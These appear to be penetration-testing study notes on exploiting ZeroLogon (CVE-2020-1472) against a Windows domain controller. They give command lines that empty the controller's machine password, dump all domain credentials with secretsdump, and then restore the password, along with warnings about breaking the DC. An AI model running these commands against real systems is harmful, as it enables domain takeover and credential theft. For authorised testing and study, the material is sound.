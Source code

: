 ## Abusing ZeroLogon
- Super dangerous to run in an environment
- It attacks the DC, setting the password to Null, and taking over the DC
- When we run it, if we do not restore the password, the DC will break
- Attack details can get complex

### Attack
- Use the dirkjanm CVE-2020-1472 exploit
- Use the check tool to see if the DC is vulnerable
- Be super cautious, it would be really bad if you destroy a DC
- Run it: `python3 cve-2020-1472-exploit.py <dc name> <dc ip>`
- This sets the password to an empty string
- Check with empty password: `secretsdump.py -just-dc <domain>/<dc name>\$@<dc i>`
- Dumps all the data, DC is owned

### Restore
- Get cleartext password: `secretsdump.py administrator@<dc ip> -hashes <admin hash>`
- Find "plain password hex" and copy it
- Use the restore script: `python3 restorepassword.py <domain>/<dc name>@<dc name> -target-ip <dc ip> -hexpass <hexpass>`
- Should be good to go

DON'T KILL A DC
